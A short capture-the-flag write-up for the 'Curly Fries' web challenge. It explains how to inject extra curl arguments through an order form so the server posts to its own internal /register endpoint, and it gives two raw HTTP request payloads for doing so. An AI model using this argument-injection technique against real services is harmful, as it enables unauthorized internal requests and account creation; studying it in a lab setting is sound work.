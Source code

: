 # Curly Fries

Welcome to Curly Fries Restaurant! We love our fries curly and we hope you will too. 
Just place your order, relax and watch as our team runs around the kitchen to quickly deliver your meal!

# Solution

The idea is to force `curl` to make additional POST request to `/register` endpoint. This can be done by modifing order request and adding additional URL with form data:

```
POST /order HTTP/1.1
Host: 192.168.0.27:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.0.27:5000
Connection: close
Referer: http://192.168.0.27:5000/
Upgrade-Insecure-Requests: 1


Form=Curly&Crispiness=Crispy&Condiment=Ketchup&foo=bar http://127.0.0.1:5000/register -d username=user&password=pass

```

Original form items do not even have to be included:

```
POST /order HTTP/1.1
Host: 192.168.0.27:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.0.27:5000
Connection: close
Referer: http://192.168.0.27:5000/
Upgrade-Insecure-Requests: 1

foo=bar http://127.0.0.1:5000/register -d username=user&password=pass
```

Upon successful registration, the user can log in and will be automatically redirected to `/dashboard` where the flag is hidden.
